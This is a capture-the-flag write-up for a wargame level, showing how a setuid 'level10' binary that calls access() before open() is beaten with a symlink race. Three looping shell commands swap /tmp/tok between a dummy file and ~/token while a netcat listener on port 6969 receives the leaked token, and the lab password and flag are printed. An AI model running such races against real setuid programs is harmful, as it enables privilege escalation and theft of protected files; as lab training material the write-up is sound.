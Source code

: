 ```sh
$> ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

$> ./level10
./level10 file host
	sends file to host if you have access to it

$> ./level10 token [host]
You don't have access to token

$> nm -v level10
[...]
         U access@@GLIBC_2.0
         U connect@@GLIBC_2.0
         U exit@@GLIBC_2.0
         U fflush@@GLIBC_2.0
         U htons@@GLIBC_2.0
         U inet_addr@@GLIBC_2.0
         U open@@GLIBC_2.0
[...]
```

As we can see, `access()` is called before `open()`.  

```sh
$> man access
[...]
NOTES
       Warning:  Using access() to check if a user is authorized to, for example, open a
       file before actually doing so using open(2) creates a security hole, because  the
       user  might exploit the short time interval between checking and opening the file
       to manipulate it.  For this reason,  the  use  of  this  system  call  should  be
       avoided.
[...]
```

We can exploit the vulnerability by creating a valid file that will be validated by `access()` and changed to `~/token` **before** `open()` is called.  
We need 3 commands running simultaneously:

```sh
$> while true; do ./level10 /tmp/tok [host]; done

$> while true; do echo -n > /tmp/tst; ln -sf /tmp/tst /tmp/tok; ln -sf ~/token /tmp/tok; done

$> nc -lk 6969
[...]
woupa2yuojeeaaed06riuj63c
[...]

$> su flag10
Password: woupa2yuojeeaaed06riuj63c

$> getflag
feulo4b72j7edeahuete3no7c
```
